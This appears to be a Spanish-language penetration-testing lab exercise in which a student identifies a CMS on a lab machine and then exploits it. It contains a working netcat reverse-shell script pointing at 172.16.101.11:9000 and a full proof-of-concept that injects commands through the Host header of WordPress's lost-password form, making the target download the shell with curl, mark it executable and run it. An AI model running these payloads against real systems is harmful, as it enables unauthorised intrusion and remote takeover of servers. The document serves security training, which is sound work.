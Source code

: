 !!!task "Tarea"
    Documenta los escaneos anteriores. ¿Qué CMS has descubierto que se está ejecutando?

Para vulnerar la máquina **victim2**, vamos a hacer uso de dos elementos:

1. Este código para una reverse shell
  
    ```bash title="rev.sh"
    #!/bin/bash
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 172.16.101.11 9000 >/tmp/f    
    ```

2. Este código como POC (*proof of concept* o prueba de concepto)

    ```bash title="poc.sh"
    #!/bin/bash

    function prep_host_header() {
          cmd="$1"
          rce_cmd="\${run{$cmd}}";
          rce_cmd="`echo $rce_cmd | sed 's^/^\${substr{0}{1}{\$spool_directory}}^g'`"
          rce_cmd="`echo $rce_cmd | sed 's^ ^\${substr{10}{1}{\$tod_log}}^g'`"
          host_header="target(any -froot@localhost -be $rce_cmd null)"
          return 0
    }

    if [ "$#" -ne 1 ]; then
    echo -e "Uso:\n$0 url-objetivo\n"
    exit 1
    fi
    target="$1"
    http_server="172.16.101.11/rev.sh"

    # Guardamos el payload de la reverse shell en el objetivo, en el directorio /tmp/rev.sh
    cmd="/usr/bin/curl $http_server -o /tmp/rev.sh"
    prep_host_header "$cmd"
    curl -H "Host: $host_header" -s -d 'user_login=admin&wp-submit=Get+New+Password' "$target/wp-login.php?action=lostpassword"
    echo -e "\n\e[92m[+]\e[0m Payload enviado"

    # Obtenemos la reverse shell
    cmd="/bin/chmod +x /tmp/rev.sh"
    prep_host_header "$cmd"
    curl -H "Host: $host_header" -s -d 'user_login=admin&wp-submit=Get+New+Password' "$target/wp-login.php?action=lostpassword"
    echo -e "\n\e[92m[+]\e[0m Payload enviado"

    cmd="/bin/sh /tmp/rev.sh"
    prep_host_header "$cmd"
    curl -H "Host: $host_header" -s -d 'user_login=admin&wp-submit=Get+New+Password' "$target/wp-login.php?action=lostpassword"
    echo -e "\n\e[92m[+]\e[0m Payload enviado"
    ```
Antes de llevar a cabo la explotación, vamos a comprobar que existe conectividad entre **vitim2** y **attacker**. Utilizando *netcat* (nc en **victim2** y ncat **attacker**), intenta establecer una conexión de una a otra.
